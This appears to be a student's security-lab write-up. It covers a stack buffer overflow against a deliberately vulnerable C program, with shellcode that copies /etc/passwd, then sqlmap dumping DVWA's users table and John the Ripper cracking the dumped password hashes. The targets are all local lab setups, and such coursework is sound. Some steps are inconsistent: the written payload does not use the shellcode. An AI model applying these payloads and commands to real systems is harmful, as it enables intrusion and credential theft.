

# Lab #1,22110008, Do Duc Anh, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
This lab is given a vulnerable C program and a shellcode source in asm and we must conduct the overflow attack
<br>**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Create a file named `bof.c`:
*First, we write a C program that given and save it in a file:*<br>

```sh
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
} > bof.c
```
## 2.  Create a file named `shellcode.asm`:
*Second, we write a shellcode in asm that given and save it in a file:*<br>
```sh
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
 > shellcode.asm
```
## 3. Run docker and compile C program 
First, we run a container from docker
```sh
docker run -it --privileged -v C:/Users/anhdo/Desktop/22110008_DoDucAnh_bof:/home/seed/seclabs img4lab 
``` 
Second, we cd to file location:
```sh
cd /home/seed/seclabs
``` 
Third, we compile C program
```sh
gcc -g bof.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -w
``` 
Fourth, we compilte asm program and link it:
```sh
nasm -f elf32 -o shellcode.o shellcode.asm 
``` 
```sh
ld -o shellcode shellcode.o
``` 
Output screenshot: 
<br>

## 4. Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile

-First, we use debugger gdb
```sh
gdb -q bof.out
``` 
-Second, show the computer source code of redundant_code function to find the location of that function:
```sh
disas redundant_code
``` 
-Third, we save that address of redundant_code function
```sh
save address 0x0804846b
``` 
-Fourth, we determine how many character need to inject:
```sh
run $(perl -e 'print "A"x<length>')
``` 
-Fifth, prepare payload:
```sh
shellcode = "\x6b\x84\x04\x08"
``` 
-Sixth, we quit debug:
```sh
q
``` 
-Seventh, we inject a lot of character 'a' to conduct buffer overflow attack
```sh
python -c "print('A' * 28 + '\x6b\x84\x04\x08')" | ./bof.out
``` 
Output screenshot: <br>
<br>
<br>

**Conclusion**: To conduct buffer overflow attack, we need to compile C program, asm program, and then, find location redundant_code function and number of character need to inject through gdb debugger, and finally we inject that number of 'A' character to conduct that attack

# Task 2. Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## 1. Install dvwa (on docker container):
-First, we pull DVWA Docker image:
```sh
docker pull vulnerables/web-dvwa
``` 
-Second, we run container DVWA:
```sh
docker run --rm -it -p 80:80 vulnerables/web-dvwa
``` 
-Output screenshot:
<br>

-Third, access http://localhost and login
-Fourth, conduct these step responsiility:
```sh
tab Setup -> Create / Reset Database
``` 
-Output screenshot:
<br>

## 2. Install sqlmap:
-On Linux:
```sh
sudo apt-get install sqlmap
``` 
-Output screenshot:
<br>

## 3. Use sqlmap to get information about all available databases:
-First, we determine the URL that we need to conduct attack: 
```sh
access DVWA ->Vulnerability: SQL Injection
copy URL: http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#
``` 
-Second, we run SQL map to find all database:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --dbs --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low"
``` 
-Output screenshot:
<br>

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
## 1. List all table in database:
-We must determine the database that we want to access then list all table:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low" -D dvwa --tables
``` 
-Output screenshot:
<br>

## 2. List information of the user:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low" -D dvwa -T users --columns
``` 
-Output screenshot:
<br>

## 3. Get the data from the table:
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=3&Submit=Submit#" --cookie="PHPSESSID=r206ch272ukcgtfpi24s2vlnk6; security=low" -D dvwa -T users --dump
``` 

-Output screenshot:
<br>

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
## 1. Install John the ripper(on Linux):
```sh
sudo apt  install john
``` 
## 2. Create file to store hash password:
-We must Create file to store hash password name 'hash.txt':<br>
```sh
echo -e "admin:5f4dcc3b5aa765d61d8327deb882cf99\ngordonb:e99a18c428cb38d5f260853678922e03\n1337:8d3533d75ae2c3966d7e0d4fcc69216b\npablo:0d107d09f5bbe40cade3de5c71e9e9b7\nsmithy:5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
``` 

## 3. Use john the ripper to crack password:
```sh
john hash.txt
``` 
## 4. check the result:
```sh
john --show hash.txt
``` 

-Output screenshot:
<br>

